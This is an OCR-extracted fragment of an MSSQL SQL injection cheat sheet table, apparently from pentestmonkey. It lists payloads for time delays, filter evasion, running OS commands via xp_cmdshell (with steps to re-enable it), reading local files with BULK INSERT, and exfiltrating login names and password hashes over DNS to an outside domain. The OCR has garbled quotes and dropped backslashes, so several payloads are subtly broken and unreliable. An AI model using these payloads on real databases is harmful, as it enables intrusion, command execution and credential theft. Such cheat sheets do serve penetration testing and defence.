 | Avoiding Quotes              	| SELECT char(65)+char(66) — returns AB                                                                                                                                                                                                                                                                                                                                                                                                                                                                 	|
| Time Delay                   	| WAITFOR DELAY ’0:0:5′ — pause for 5 seconds                                                                                                                                                                                                                                                                                                                                                                                                                                                           	|
| Make DNS Requests            	| declare @host varchar(800); select @host = name FROM master..syslogins; exec(‘master..xp_getfiledetails ”\’ + @host + ‘c$boot.ini”’); — nonpriv, works on 2000declare @host varchar(800); select @host = name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) + ‘.2.pentestmonkey.net’ from sys.sql_logins; exec(‘xp_fileexist ”\’ + @host + ‘c$boot.ini”’); — priv, works on 2005– NB: Concatenation is not allowed in calls to these SPs, hence why we have to use @host.  Messy but necessary. 	|
|                              	| – Also check out theDNS tunnel feature of sqlninja                                                                                                                                                                                                                                                                                                                                                                                                                                                    	|
| Command Execution            	| EXEC xp_cmdshell ‘net user’; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default:                                                                                                                                                                                                                                                                                                                                                                            	|
|                              	| EXEC sp_configure ‘show advanced options’, 1; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                  	|
|                              	| RECONFIGURE; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   	|
|                              	| EXEC sp_configure ‘xp_cmdshell’, 1; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                            	|
|                              	| RECONFIGURE; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   	|
| Local File Access            	| CREATE TABLE mydata (line varchar(8000));                                                                                                                                                                                                                                                                                                                                                                                                                                                             	|
|                              	| BULK INSERT mydata FROM ‘c:boot.ini’;                                                                                                                                                                                                                                                                                                                                                                                                                                                                 	|